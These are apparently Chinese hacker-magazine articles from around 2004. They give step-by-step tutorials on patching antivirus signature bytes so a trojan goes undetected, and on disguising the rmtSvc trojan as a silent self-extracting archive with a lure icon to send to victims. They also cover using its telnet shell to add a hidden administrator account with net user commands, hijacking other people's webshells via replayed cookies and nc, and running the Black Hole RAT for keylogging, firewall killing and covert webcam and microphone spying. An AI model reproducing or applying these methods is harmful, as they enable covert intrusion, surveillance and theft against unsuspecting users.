然后单鼠标右键，选择“填充”，弹出填充字节，在“用下列十六进制字节填充(F):”框中填入0，单击确定将所选中区域的所有数据替换为0。打开文件菜单选择另存为，将文件保存为00001xxx.exe。再选中代码段00002xxx和00003xxx中的数据，用同样的方法替换掉代码段00002xxx和00003xxx中的数据，另存为00002xxx.exe和00003xxx.exe(注意：我们另存的0002xxx.exe是在修改过的00001xxx.exe的基础上修改的，00003xxx.exe又是在在修改过的00002xxx.exe的基础上修改的)，用同样的方法替换其它代码段中的数据。

我们一共得到了三个破坏了特征码的EXE文件，我们先使用瑞星扫描这三个EXE文件，扫描前要将发现病毒后的处理方式设置为“忽略，继续扫描”方式。后用kv2004扫描。

两个杀毒软件都报告发现病毒，说明特征码在00001xxx数据段，我们将这三个EXE文件删掉，用Hex workshop打开Data_2.exe，缩小范围在00001xxx数据段中查找特征码，我们将00001后面一个16进制数字作为代码段查找，用同样的方法替换数据，我们就得到了16个EXE文件，先用瑞星2004扫描这16个EXE文件，如图5。

在扫描结果中我们看到共扫描到6个病毒，文件名为00001000.exe到00001500.exe，说明特征码不在00001000段到00001500段，在00001600段中，再用KV2004扫描，如图6。


在扫描结果我们看到扫描到3个病毒，单击“是”按钮，KV2004将自动删除这三个文件，剩下00001300段以后的文件，说特征码在00001300段中。现在我们已经找到了Data_2.exe在瑞星2004和KV2004中的特征码所在的大体位置。


用同样的方法，用瑞星在00001600段中查找特征码，用KV2004在00001300段中查找特征码，最终我们的范围缩小在了00001638段和00001398段，我们将这两段分成12段来查找，用瑞星2004扫描00001638段另存为的12个EXE文件000016380.exe到00001638B.exe，如图7。

在扫描结果中，扫描到了4个病毒，000016380.exe到000016383.exe，说明特征码是000016384.exe和000016385所对应的16进制码：6489 0D00。


用KV2004扫描00001398段另存的为12个EXE文件000013980.exe到00001398B.exe，如图8。

扫描到了3个病毒，000016380.exe到000016382.exe，说明特征码是000013983.exe和000013984所对应的16进制码：C075

后记

网络与安全文萃 2003 2004年合订本 下册


图8
我们现在已经找出了Data_2.exe在瑞星2004和KV2004中的特征码。
接下来就来修改特征码，先来修改特征码：C075 6A56。
打开Delphi反编译器DeDe，从工具菜单中选择机器码转汇编码，在弹出对话框中的OPCODE栏里输入C075回车，在ASM栏里出现相对应的汇编码：DB $C0, $75, $00, $00 // byte ptr [ebp+$00], $00，如图9。


图9
我们将C075改成D075，相应的汇编码变化不大，我们就把C075改成D075，在Hex Workshop中用鼠标选中C0，使用填充，将C0修改成D0，直接保存，用KV2004扫描，还是能被查杀。
接着继续修改，我们修改下一段特征码6A56，在OPCODE栏里输入6A56回车，对应的汇编码是push $56，我们将6A改为5A，对应的汇编码是pop edx，相应变化也不打，push和pop都是堆栈指令，用Hex Workshop修改，然后另存为Data2.exe，用KV2004扫描，这次提示没有发现病毒，现在还剩下瑞星，在OPCODE栏里输入6489回车出现对应的汇编码mov fs:[eax], eax，我们直接修改成9090让它不执行任何动作，也可以改成其它代码，用Hex Workshop将6489修改成9090，直接保存，用瑞星2004扫描，这次提示没有发现病毒，现在我们已经让Data2.exe成功的躲避了KV2004和瑞星2004的查杀。
用DeDe中机器码转汇编码器，我们不需要懂得汇编指令也能相应的修改特征码，就不用为看不懂汇编指令发愁了，金山、诺顿和其它的杀毒软件的特征码查找都可以使用分离筛选法，这里就不一一举例了。
将修改后的Data2.exe重命名为Data_2.bin（注意：不能用加壳软件加壳），用ResHacker打开已解压缩的PcShare，按F4键弹出替换一个资源对话框，点击打开新资源文件按钮，选择我们修改好的Data_2.bin，替换一个资源对话框出现了新的变化，在资源类型框中输入EXE，资源名称框中输入HTTP_FILE，在资源语言框中输入2052，如图10。
单击替换按钮，我们就用修改过的Data_2.bin文件替换了包含在PcShare的服务端，按F6保存。


图10
用瑞星2004和KV2004扫描替换新资源的PcShare，KV2004还报有病毒，使用上面的方法在PcShare中查找特征码，然后修改，这里就不详述了。
用WinHex在内存中查找特征码，这种方法有很大的局限性，只针对瑞星有效，然而瑞星升级后，查找出来的特征码也不一样，又不得不重新研究特征码的结构，使用分离筛选法就避免了以上的问题，使用分离筛选法不但在现在有效，还是以后很长一段时间内很直观、有效的方法。也许以后，杀毒软件公司会考虑对一个软件提取多个特征码来考验特征码查找者的耐心了。
（文章中所涉及程序 PEiD、UnPECompact、ResHacker、Hex Workshop已收录在本期光盘中）

# 极品木马——赤兔rmtSvc&vIDC

kuang110/公子许

说到网络，就不能不提起远程控制，相信大家都玩过不少木马吧，驰骋网络，怎么能没有自己称心如意的坐骑呢？在众多纷纭的“黑道”上你是不是有些困惑，有些迷惘呢？于是乎，昂首长叹：良驹难觅，好马难寻！现在你不再用在沮丧了，今天我给你推荐一匹赤兔宝马吧！
rmtSvc&vIDC 2.4.6是一款集ftp服务、telnet服务、proxy服务以及vIDC服务于一身的远程控制工具，有了它我们就可以方便的对远程计算机进行操控了。之所以强烈向大家推荐这款远程控制工具，是因为其功能强大，使用简单极易上手，而且它无需安装，采用B/S结构，你可以通过浏览器进行远程控制，客户端浏览器可以为任何支持HTML3及以上版本的浏览器，例如IE4.0及以上、mozilla浏览器、netscape7.0等。这就省去了“随身携带”木马客户端的不便，因为只要安装了Windows就会有IE。尤其方便了在网吧上网的小菜们，不必再提心吊胆怕下载木马客户端时被网管发现了。下面我们就来看看rmtSvc&vIDC强大的功能吧！
在使用前我们先要对其设置一下：
rmtSvc是一个win32控制台程序，所以只要简单的双击直接运行它就可以开机自动运行。
如果你想对它进行进一步细致的配置，那么你可以参考如下方法：
命令格式：rmtSvc.exe [options]

- -i：安装rmtsvc服务，将rmtsvc安装为windows系统服务，以后每次开机后自动运行。
- -u：卸载rmtsvc服务。
- -s：启动rmtsvc服务，如果安装了rmtsvc服务，可通过此参数启动rmtsvc程序，作为服务运行。
- -e：停止rmtsvc服务，如果安装了rmtsvc服务并且启动了rmtsvc服务，可以通过此参数停止rmtsvc服务或者通过Windows的服务管理控制台（SMC）停止rmtsvc服务，前提当然是安装者允许你通过SMC或控制台停止rmtsvc服务，如果用户启动后设置了禁止通过SMC和控制台通知rmtsvc服务，那么你将不能通过此参数停止rmtsvc服务的运行。
- -d：在debug模式运行rmtsvc程序。此参数后面可以指定调试级别1-4，控制rmtsvc运行时输出的调试信息级别。例如-d4则输出任何级别的调试信息，-d1仅仅输出少数重要的调试信息。在此模式下运行rmtsvc可方便用户观测rmtsvc的运行状况，用户可以通过Ctrl+C结束rmtsvc程序的运行。
- -f: 以后台方式运行rmtsvc程序。此时rmtSvc作为一个faceless控制台程序，当控制台窗口被关闭时，rmtSvc不会结束。你只能通过管理界面。默认的用户直接双击运行rmtsvc.exe以此种方式运行（如果用户已经将rmtsvc安装为服务，则双击运行将作为服务方式运行，即相当于-s参数）。
- -p: 指定rmtsvc的服务端口，如果不指定默认的服务端口为7778。

好了，现在我们已经配置完毕，下面就是安装运行了。

## 1.本机安装

可以直接双击运行，或用命令rmtSvc.exe -i来进行安装。当然谁都不会在自己的爱机上种个木马，这种方法是让你在被控机上（如网吧）安装运行的。
切记不要在本机上运行，否则后果自负。

## 2.远程安装

可以先用WINRAR做个自解压包，再用QQ或E-Mail发送给你要控制机器的主人，只要双击运行就会自动安装运行。同时你也可以把它当成后门来用。好了现在就直接说说怎么来制作这个自解压包吧（可参考以前《黑客X档案》的文章）！
首先，要在安装了WINRAR的情况下，选中rmtsvc.exe和webe文件夹，然后点击鼠标右键，在弹出菜单里选“添加到……rar”如图1，这样做会在当前目录下生成一个.rar文件。双击这个.rar文件，选择“自解压”选项，在弹出菜单中的“自解压格式”的，“选择命令”框里选择“添加新的自解压模块”，“选择自解压模块”框里选择“Default.SFX Windows图形界面RAR 自解压模块”，然后点击“高级自解压选项”进行设置（此处最关键）。


我们需要设置的只有“常规”和“模式”两个选项卡，下面是具体设置。
在“常规”的“解压路径”框里填写文件解压的存放路径，我们这里填写系统文件路径C:\Windows\system32。“安装程序”里有两行，第一行填写解压后运行程序，第二行填写解压前运行的程序，我们这里都写rmtsvc.exe（运行两次，有点多此一举^_^），如图2。
在“模式”的“安静模式”框里选择“全部隐藏”，“覆盖方式”框里选择“跳过已存在的文件”，见图3。


如果就这样点击“确定”，那么生成的自解压文件包的图标是默认的。试想如果你收到了这样的自解压包，你不觉得可疑么？通常我们会右击，看看右键菜单里有没有“解压到……”，如果有，我们会先解压，看看里面是什么东西，再决定是否运行。所以，为了增加隐蔽性我们还可以给它换一个图标。这就需要设置“文件和图标”选项卡了。
首先，我们要准备一个有诱惑性的图标文件（.ico文件）。可以用EXESCOPE、exe来提取我们想要的图标文件。


用EXESCOPE打开想要图标的程序，在“Resource”里找到我们想要的图标，然后如图4导出即可（导出：点击“File”→“Export”）。

> 友情推荐：
> 在\Windows\system32\shell32.dll中可以提取一些好看的Windows自带的图标（光盘提供本人收集的72个精选图标，可以让你的木马72变）。远程主机所存在的问题。

提取好了图标后，回到“文件和图标”选项页，在“自定义自解压文件图标”框里选择我们刚才导出的.ico图标，然后点击“确定”即可，如图5。


好了，一切设置完毕！点击“确定”。在当前目录生成了一个个性图标的自解压文件包。
这样发给别人，就不那么容易发现了。除非他去查看右键菜单。
我们也可以制作网页木马，或利用系统漏洞来种植木马，总之方法多多，开动你的脑筋，发挥你的想象力，你一定会有办法的。

## 远程控制

下面我们进入rmtsvc管理界面来控制远程计算机吧！
由于rmtsvc是一款B/S方式的远程控制工具，用户无需安装客户端，所以通过浏览器即可以进行远程管理及控制操作。当被控机上rmtsvc运行以后，我们就可以打开浏览器输入http://IP:port。其中IP为被控机IP地址，port为rmtsvc的服务端口，如果你没有更改过服务端口，那么默认的


## 牧马记

端口将是 7778。我们这里连接的是 IP 为 192.168.0.3 的计算机，端口我设置的是: 1017。连接上了被控机之后你会看到一个欢迎登录画面，如图6。要求你输入访问 rmtsvc 服务的密码，如果你没有更改过访问密码，那么默认的访问密码是 123456。输入正确的密码和验证码后你就可以进行任何 rmtsvc 支持的操作。


欢迎登陆画面的上方为 rmtsvc 系统菜单。包括如下九个菜单选项，点击即可进入相应的控制界面。

1.Pview（进程管理）
此处相当于任务管理器，如图7，此页面将显示三部分信息：系统信息、进程/模块信息和CPU/内存使用信息。


系统信息：系统信息将显示远程被控机的计算机名、操作系统/版本/packs、Cpu类型，显示远程被控机当前的登录帐号和密码。
格式：机器名/帐号/密码。如图7所示，机器名为TWIST，帐号：ling，密码为空（注意：此功能仅仅对NT/2000有效，对于Win9x和XP无效，如果远程被控机器没有登录，则无法显示当前帐号和密码。
如果你以服务方式运行rmtsvc，则只能显示以系统管理员身份（Administrator）的密码。如果以非服务方式运行，则可以显示当前任意登录的帐号和密码）。
进程 / 模块信息：显示当前被控机上运行的所有进程，页面右边为进程模块显示区域，点击某个进程名则显示此进程的相关模块信息。图7中显示了explorer.exe的相关信息。此时点击“Kill It”按钮则杀掉当前进程（注意：进程列表不会实时自动刷新，用户必须手工刷新）。
CPU/内存使用信息：页面右上角的图形实时显示当前被控机的CPU使用率、内存占用率的曲线图，绿线为cpu使用率，黄线为内存占用率。点击图形可以停止/继续实时显示曲线图。

2.Spy++（远程控制管理）

通过浏览器远程控制被控机。通过各选项可完全操控远程计算机（与大多数远程屏幕控制相似），这里不做详细介绍。

3.Files（远程文件管理）

见图8，可象操作本机一样管理远程文件。我们可以在这里上传其他木马，后门软件，还可以下载我们感兴趣的文件。


4.Proxy（启动或停止 rmtsvc 的代理服务，设置代理服务的运行参数）

如图9，默认状态是停止，配置完成后可选“Run”运行。图9中Proxy port 是设置 Proxy 服务的端口，默认为 8080。Authentication 设置访问 Proxy 服务的权限，是否允许匿名访问，如果不允许则设置访问的用户名密码。proxy_type 设置本代理服务允许支持的代理协议，默认支持 HTTPS、SOCKS4、SOCKS5（注意本 socks5不支持UDP代理）。cascade proxy设置是否连接二级代理，即本代理是否还要连接代理，如果设置了二级代理，则上面的访问用户名和密码处应填入本代理访问二级代理需要的用户名和密码。filter rules设置代理访问规则，默认访问规则就是那些所有不符合设定的访问规则条件的用户是否允许/禁止使用代理。访问规则的设置：在文本输入框内按如下格式输入：


```
[TYPE] SP [NETMASK] SP [DEST IP] SP [DEST PORT] SP [ENABLED] CRLF
```

```
TYPE — 协议类型 0-ALL 1-TCP 2-UDP
NETMASK — 网络掩码，例如：255.255.0.0
DEST IP — 访问的目的IP地址，例如：172.18.0.0
DEST PORT — 访问的目的端口，如果设为0则忽略此条件
ENABLED — 是允许还是禁止符合上述条件的访问用户使用此代理服务 0:禁止 1:允许
```

5.Ftp&Telnet（启动或停止 rmtsvc 的 ftp 服务/telnet 服务，配置服务运行参数）

配置比较简单，配置完成点击“Run”即可。
我们先来看看FTP服务吧！如图10进行简单的配置（即用户名：xv，密码：qinni520），点击“Run”开启服务。然后我们连接ftp://192.168.0.3:2121。会出现如图11的界面，我们输入刚才设置的用户名和密码即可登陆（图12）。我们进入了远程计算机的系统目录。还可以按下面提示的格式在文本输入框中输入多个访问帐号信息。以便不同权限用户访问。
FTP Service status: Stopped Run
FTP port 2121
Anonymous access: enable
username xv password oooooo


我们再来看看Telnet 服务，可按图13配置（即用户名: xv，密码: qinni520），点击“Run”开启服务。
Telnet Service status: Stopped Run
Telnet port 2323
Anonymous access: enable
username xv password oooooo


然后我们在命令提示符状态下连接，如图14。
用命令telnet 192.168.0.3 2323连接，再按提示输入用户名和密码（就是刚才我们设置的xv和qinni520），然后回车即可获

黑客X档案2003 2004年合订本下册

## 牧马记

得到一个CMDshell了。


有了这个shell，我们可以添加个管理员帐号，可以用命令 net user xv "qinni520" /add 和 net localgroup administrators xv /add 添加一个用户名为xv、密码为qinni520的管理员帐号，如图15。


我们发现输入显示均为“双影”，这大概是作者和我们开的一个玩笑吧^_^只是显示误差并不影响命令执行结果。还可以开几项服务（可用命令net start 服务名来开服务），打开共享（可用命令net share 共享名来开共享。例如：net share ipc$ 开ipc共享；net share c$ 开c盘共享）。总之你喜欢做什么就做什么吧！

6.下面是本木马特色之处：vIDC（设置vIDCs的访问权限，设置vIDCc连接参数，映射端口等）。如图16。


vIDC就是不正其提供空间，但你却能在上面建立自己的web服务（网站）或者其它TCP服务。使用虚拟IDC，它允许你将局域网内的服务映射到Internet上，使你在任何地方都可以访问局域网内的服务。

vIDC分为服务和客户端两部分：vIDCs和vIDCc。虚拟IDC客户端负责将指定局域网内的服务映射到虚拟IDC服务所在机器的某个端口。当有用户访问虚拟IDC服务所在机器的指定端口时，虚拟IDC服务将请求转发至虚拟IDC客户，然后虚拟IDC客户连接真正的被绑定的服务，同时将响应返回给用户。rmtsvc2.4.5本身就是一个vIDCs服务，服务的端口也是rmtsvc的服务端口，同时rmtsvc还具有vIDCc客户端功能，你可以通过rmtsvc的vIDCc功能连接其它的rmtsvc服务，并映射指定的TCP服务端口到其它rmtsvc服务运行的机器上的。


- **vIDC Service status:** 显示当前vIDCs的运行状态，以及当前映射端口信息。
- **Anonymous access:** 是否允许匿名访问vIDCs服务，如果不允许，则vIDCc客户端必须输入密码才能连接此vIDCs服务并映射端口。vIDCs服务端的验证密码就是rmtsvc服务的访问密码。
- **vIDC Client status:** vIDCc运行状态。
指定要连接的vIDCs的IP端口。连接vIDCs后，映射本rmtsvc的到vIDCs上的端口。
如果指定为==0，则映射端口和本rmtsvc的端口一致。如果<0则不映射本rmtsvc服务，仅仅连接vIDCs。
如果vIDCs不支持匿名访问（即要求验证），那么还应输入vIDCs的访问密码；即rmtsvc2.4.5的访问密码）。
- **map rmtsvc的端口** 设为你要映射的目的端口，即最终你要通过vIDCs服务所在机器访问的端口。

设置此处端口要注意:vIDCs所在机器上的设置的端口没有使用(例如：如果此处的设置为0，则不映射本rmtsvc服务，仅仅连接vIDCs。
设置此处端口要注意:vIDCs（如果<0则不映射）


配置完成后，点击“Connect”连接。连接上vIDCs了之后还可以添加/删除其它映射端口。有了这个功能，我们就可以在肉鸡上做主页面了，还可以配置自己的服务器，够爽吧！

7.Option（配置rmtsvc的运行参数，如访问密码、是否隐藏等）。如图17。

具体的参数释义如下：

- **Modify Password:** 设置rmtsvc访问密码（默认：123456）。
- **Service Port:** 设置rmtsvc服务端口（重新启动rmtsvc时生效），默认：7778。
- **Start Control:** 如果你没有将rmtsvc安装为Windows服务，则会出现此选项，选中后会将rmtsvc自动安装为Windows服务，这样以后每次开机后会自动启动rmtsvc服务。
- **Stolen mode:** 是否隐藏rmtsvc服务。
- **Start mode:** 设置rmtsvc运行后是否自动启动下列服务：ftp服务、Telnet服务、Proxy服务，是否自动连接vIDCs并映射本rmtsvc服务端口到指定vIDCs服务器上（如图1.8配置，意思是：将默认的密码123456改为qinni520，端口改为2222，隐藏rmtsvc服务。rmtsvc运行后自动启动下列服务：ftp服务、Telnet服务、Proxy服务，自动连接vIDCs并映射本rmtsvc服务端口到指定vIDCs服务器上，rmtsvc运行后是否释放dll，如果释放，则释放后的dll名称为什么呢？默认为释放，名称为inject.dll。为了防止自动释放的未加壳的dll被杀毒软件查杀，用户可以选择不释放dll。手工将加壳的dll拷入到被控机的系统目录下，在释放dll的名称处填入你加壳后的dll名称。rmtsvc释放的dll主要做如下用处：隐藏进程、模拟ctrl+alt+del按键、显示密码框密码、监视rmtsvc运行异常。如果异常退出或被杀掉则自动重新启动，将配置参数写入rmtsvc程序本身）。
- **Killed Program:** 设定rmtsvc监视并自动杀掉的进程名称，各个名称之间以逗号分隔。
- **Login Users:** 显示当前登录并访问此rmtsvc服务的用户信息。


## 牧马记

右上角功能按钮：

- **Save**：保存 rmtsvc 当前配置。可以有两种选择：将配置参数保存到注册表或保存到可执行文件本身。如果保存到可执行文件本身，rmtsvc 服务会重新启动运行。注意只有在隐藏模式下才可以将配置参数写入 exe 本身；如果没有保存，每次以 rmtsvc 正常退出时也会将配置参数写入 exe 本身。
- **Stop**：结束 rmtsvc 程序的运行。如果处于隐藏运行模式下，则结束前会自动将配置参数写入注册表和可执行文件本身。
- **Restart**：结束并重新运行 rmtsvc。重新运行的 rmtsvc 会以用户设置的新的服务端口启动。

## 8.logoff（注销对 rmtsvc 登录）。

## 9.About（rmtsvc 欢迎登录画面）。

矛盾是普遍存在的，事物都具有两面性，说 rmtSvc&vIDC 2.4.6 是极品，并不是说它是完美无暇的。
做成自解压包后仍有 288K 的身躯，虽说不是太大，不过对拨号的小猫来说，还是有一定的负担。不过看其全面的功能，这点不足之处也就不算什么问题了。鉴于这样的特点，局域网将是其有利的战场。
经过测试验证，rmtSvc&vIDC 2.4.6 可以躲过大多数杀毒软件的查杀。如图 19，我们的测试环境：XP+诺顿 2004。


图 19

这款极品木马就先介绍到这里吧！它全面的功能还有待于你的挖掘，有什么新的发现可以到《X 档案》的 BBS 上一起探讨。
（文章中涉及的工具 rmtSvc&vIDC 和 EXESCOPE.exe 光盘中有收录。另，光盘中还收录有作者收集的 72 个精选图标）


麻吉剑心

现在的木马越来越不好找了，尤其是 PHP 的木马。怎么办呢？大家不要着急，我有一个好办法。

## 1.ASP 木马

“喜欢看着蓝蓝的天，喝牛奶，被人宠，被人哄，被人抱着，被人迁就，不用减肥，可以大笑和大哭”。以上的字体玩过海阳顶端木马的朋友都很熟悉吧！呵呵，我们可以将它做为关键字，在百度或 google 里搜索一下，就可以搜索到一些别人放好的木马。剩下的大家都知道怎么办了吧！（不要给我口水啊！）
另外大家还可以尝试搜索：“不要黑我呀，老大！”、“一次只能执行一个操作:)”在本页操作”等海阳顶端里的木马字段，可以得到意外的惊喜哦！下面来得到海阳顶端木马的密码。
我搜到的木马后门是“http://www.xxx.com/xp.asp”，这个时候得用到这个工具 winsock exper（这是一个用来监视和修改网络发送和接收数据的程序，可以用来帮助您调试网络应用程序，分析网络程序的通信协议，如分析 OICQ 的发送接收数据，并且在必要的时候能够修改发送的数据……口水都讲干了。喝水先。
登陆到自己的 ASP 木马，然后找到自己木马的路径，打开 winsock expert，选择监视对应的 IE，回到 IE 点“编辑”，此时，

IE 显示出你的木马的源代码了，换到 winsock expert，在前几行有一个用 get 方法显示出的木马的数据，我的是：
```
GET /amei/goct.asp?id=edit&path=/amei/xp.asp&attr= HTTP/1.1
Accept: */*
Referer: http://www.xxx.com/bbs/xp.asp?path=/pl&olpath=&attr=
Accept-Language: zh-cn
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows 98)
Host: www.xxx.com
Connection: Keep-Alive
Cookie: ASPSESSIONIDQQGQIOU=LKBFPJEAWEIGNMKDIJEIKNNI;password=allen
```
注意：要把数据中所有的币和路径改为别人的木马路径。此外还要将 GET /amei/goct.asp?id=edit&path=/amei/xp.asp&attr= HTTP/1.1 中的 PATH=后的值改为别人的木马路径。

我找的木马是“http://www.xxx.com/bbs/goct.asp”，所以改后的数据是：
```
GET /bbs/goct.asp?id=edit&path=/bbs/goct.asp&attr= HTTP/1.1
Accept: */*
Referer: http://www.xxx.com/bbs/
goet.asp?path=/images&olpath=&attr=
Accept-Language: zh-cn
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows 98)
Host: 202.202.202.202
Connection: Keep-Alive
Cookie: ASPSESSIONIDQQGQIOU=LKBFPJEAWEIGNMKDIJEIKNNI;password=allen
```
OK！最后我们就是提交的数据啦！进入 cmd，输入 NC 的目录，格式为：nc -vv www.xxx.com 80 >1.txt。>bbs.txt 表示将返回的信息保存在同目录的 bbs.txt 文件中。
等待一会儿它就会自动提示连接成功，我们将作好的 COOKIE 粘贴在里面，按两次回车。在同目录下的 bbs.txt 就看到了木马的源代码，将其中的一段：if trim(request.form("password"))="你要的密码" then，修改成自己的密码即可！

## 2.PHP 木马

PHP Web Shell 是应用于 PHP 脚本环境下的一个 CGI 后门，可以在 PHP 的环境下运行，支持现在主流的操作系统，包括 WinNT/2000/2003/*nix/*BSD 等平台。大家可以在百度或 google 里搜索一下：PHP Web Shell v0.5。然后再看结果里有没有符合的，这样往往一不小心就会找到一个肉鸡。
http://www.popphysics.com/UploadSoft/phpcmd.php（真实的），www.xxx.com/bbs/index.php（假的）。没有密码啊！！！别着急，接着往下看。www.xxx.com/bbs/config.php，你也可以编辑 config.php 文件看到密码。搜马就是这么简单，还愣着干嘛，去搜啊！


## 牧马记

## 可以吞噬一切的“黑洞”

黑洞是宇宙中最神秘的天体之一，它由一颗或多颗天体坍缩形成，引力极强，甚至可以吞噬附近的一切物质。而在现实生活中，一款名为“黑洞”的中文远程控制软件（木马）也凭借其超强的控制能力、简单的操作以及众多的功能，使它成为众多木马中当之无愧的英雄。

就在几天前，作者陈经韬发布了最新的黑洞版本——黑洞2004 Build200495，此次作者推出的黑洞有演示版、注册版、专业版之分，注册版和专业版比演示版功能要多些，但要收费，而演示版可供大家免费使用。此次推出的黑洞较以前的版本有很大改动，不仅操作界面焕然一新，操作也更加方便；并且在连接方式上也采用了现在流行的反弹技术，可轻松穿越防火墙的拦截。下面就随我一起感受黑洞2004的强大功能吧！

黑洞2004同样是基于C/S（客户端/服务端）模式的木马，当作为控制端的电脑和被控制端的电脑通过网络进行连接后，就可通过本地的客户端程序控制远程的服务端程序。

## 一、下载安装

从作者的主页（http://www.138soft.org）下载黑洞2004演示版，下载完成后解压，运行压缩包中的客户端程序Client.exe即可使用。为了确保下载软件的安全性和完整性，我们需要检测程序的MD5值。

运行检测MD5值的软件WinMD5，选择Client.exe并拖动其到WinMD5的操作界面上释放，WinMD5就会对Client.exe的MD5值进行计算（图1）。


### 图 1

将得到的MD5值和作者主页提供的MD5值进行对比，如果结果不一致，说明你的客户端程序已被修改或已经感染病毒，应该立即停止使用；结果一致的话，就可使用。现在，我们运行客户端程序Client.exe，打开操作界面（图2）。全新的操作界面为更多的新功能提供了展示的舞台。


### 图 2

## 二、操作步骤

### 服务端配置

任何一款木马在使用前都必须进行配置。为了避免不熟悉黑洞的用户误运行服务端，作者在开发黑洞时并没有提供单独的服务端，而是通过用户自己的设置来生成服务端。

点击“文件”菜单下的“配置服务端”命令，弹出“服务端程序配置”窗口。在这里对木马服务端在注册表的启动名称、启动路径以及服务端安装到系统的路径、名称等进行设置。如果你希望对方在运行木马服务端后不再需要原始的安装程序，就选中“安装完毕后删除安装文件”选项；如果你选择了“在任务栏显示图标”，那么对方在运行了服务端后就会在系统的任务栏中显示一个服务端的图标（图3），可惜这个图标没有任何的功能，甚至连一个“关闭”功能都没有。

Black Hole 2004 Build20040905


### 图 3

“屏幕录像”、“键盘记录”和“系统密码”是新版黑洞2004推出的最新功能，使用“屏幕录像”功能后，即使服务端电脑没有连接网络，它的一切操作都会录在本地硬盘当中。同样，键盘操作也会被记录在硬盘中。等服务端下次连接到网络时，我们就可使用客户端程序把记录的文件下载下来。

“使用进程自动关闭功能”后，可自动对列表设置中的程序进行关闭，这样就可以很方便地把对方的防火墙关闭掉。在“进程关闭列表”中输入要关闭程序的名字（名称不必输入全称），名称可以有多个，在每个程序名称间用逗号分开（逗号必须为英文符号，否则无效），如图4。

由于新版黑洞可以dll方式注入到任意进程中（包括“explorer.exe”、“IE浏览器”、“notepad.exe”等系统进程），所以具有更强的隐蔽性，再加上名称、大小、隐蔽路径都是不定的，就给用户的发现和病毒查杀带来了很多困难。黑洞2004在客户端和服务端连接时，既可采用传统的自动连接方式，也可使用现在流行的反弹连接方式，下面笔者就分别对这两种连接方式进行说明。


### 图 4

### （1）自动连接方式

点击“服务端程序配置”窗口下的“主动连接型”面板，对服务端的端口进行设置，建议使用默认的2005，现在点击“生成服务端程序”就可生成使用的服务端了。但由于现在国内的上网用户在上网时的IP地址基本为动态IP，所以为了使这台服务端电脑不丢失，建议最好使用“IP更新信箱通知”命令。这样，服务端电脑上线后，就会把IP信息发送到你设置的信箱，具体设置可以参看图5。


### 图 5

设置完成后，点击“发信测试”命令对信箱设置进行测试。如果设置信箱正确，就会弹出“发送成功”的提示框，否则就需重新设置。为了迷惑别人，还可以点“更改服务端图标”按钮为服务端选择一个图标。现在就可以点击“生成服务端程序”，以生成一个自动连接方式的服务端程序。

### （2）反弹连接方式

反弹连接方式也为用户提供了两种方案，即“域名反弹”和“FTP反弹”。“FTP反弹”是一种最早的反弹方式，这种反弹方式相对于“域名反弹”而言，不仅难度大一些，速度也慢一些，还会有诸多限制，因为这种反弹方式需要利用一个网络空间。下面笔者以“域名反弹”为主为大家讲解。

如果你没有现成的域名，就单击下面的“查看”按钮，在弹出的“更新IP地址”界面中选择“YEAH.NET更新IP”选项卡，我们可以在这里注册网易公司的免费二级域名。输入你喜欢的域名和密码，单击“注册”按钮，在下面的窗口中会反映出注册的情况（图6）。


域名注册成功以后，退回“服务端程序配置”窗口，填入刚申请的域名，如“http://mk2004.126.com”。点击“测试URL地址”测试域名输入是否正确。所有设置都完成后，点击“生成服务端程序”就可生成一个反弹连接方式的服务端程序。如果你对“FTP反弹”感兴趣，可参考图7的配置，这里就不再叙述了。


新的2004版黑洞最吸引人的功能之一就是：支持同时进行多个电脑连接并进行多个操作的反连接型远程控制。黑洞2004是世界上首个支持同时多连接、多操作的反弹性远程控制软件。现在已有很多可以同时连接多个服务端的远程控制软件，例如Radmin，但它们只能实现主动连接。其他很多基于反弹技术类型的远程软件，只能同时对一台电脑进行操作，黑洞2004的出现恰好填补了这一空白。这就是黑洞采用全新操作界面的原因。

由于黑洞2004分为“反弹”和“主动”两种连接方式，这两种连接方式除了在客户端和服务端进行连接时的操作不一样外，其他功能操作完全一样，所以下面笔者就以反弹连接为例，为大家讲解黑洞2004的诸多功能。

当网络连接成功后，运行黑洞，首先点击“自动上线”按钮。在弹出窗口中切换到“YEAH.NET更新IP”选项卡，填入你申请的域名和密码，点击“更新到空间”按钮，这样域名就会被转换为你当前的IP地址。当服务端连接域名时，实际上就是连接你的IP地址，这样，远程服务端就会和本地客户端自动连接了。不一会儿，就有一台电脑到我们的客户端来“报到”（图8）。我们可清晰地在客户端中看到服务端电脑的上线名称、IP地址、实际地址、上线时间等信息。


单击一个IP地址，我们就可对这台电脑进行远程控制了。首先，我们通过“手工抓屏”或者“自动抓屏”功能查看对方正在干什么，这样就可以知己知彼。

单击“手工抓屏”按钮，在弹出的“屏幕监控”窗口中可清晰看到对方的屏幕（图9）。


“自动抓屏”可以自动地、连续不断地抓取对方屏幕，而“手工抓屏”只能抓取一次，当你需要再次抓取时，需要点击左上角的按钮，并在弹出的菜单中选择“下一幅”命令。点击菜单中的“保存图片”命令，可把抓取的图片进行保存；如果在“自动抓屏”的菜单中选择了“自动保存图片”命令，就会把自动抓取的图片保存到木马客户端的所在目录。两个抓屏功能都可通过菜单中的“允许控制鼠标键盘”命令对对方的鼠标键盘进行控制，这样我们就像远程桌面那样对对方的桌面进行操作了。

黑洞为很多功能提供了资料保存管理功能，通过“资料管理”菜单中的“本地屏幕文件管理”命令就可对自动保存的图片进行打开、删除等操作（图10）。


“视频监控”和“语音监听”可以说是黑洞2004最有特色的功能了。如果远程服务端电脑安装有USB摄像头，那么可通过它来获取图像，并可直接保存为Media Player直接播放的Mpeg文件；如果对方有麦克风的话，同样可利用麦克风捕捉用户的一切声音。

点击“视频监控”按钮，打开“视频监控”窗口，首先黑洞会自动检测对方系统中是否安装有USB摄像头，如果对方的确实安装有USB摄像头，那么无论对方是否打开摄像头，黑洞都可强行打开摄像头，对对方进行监控，并把监视录像保存为Mpeg文件，存放在客户端的目录中。

点击“语音监听”按钮，同样地，黑洞会自动检测对方系统中是否安装有麦克风。如果有，就自动打开并捕捉声音，并保存为Gsm文件。通过笔者的使用发现，黑洞的视频监控和语音监听在同类软件中是最优秀的。通过“资料管理”菜单中的命令同样可对保存的Mpeg文件及Gsm文件进行管理。由于Mpeg文件管理和图片管理操作相同，在此就不再叙述了。而Gsm文件的管理是：点击“资料管理”菜单中的“本地语音文件管理”，在管理窗口中查看保存的Gsm文件（图11）。


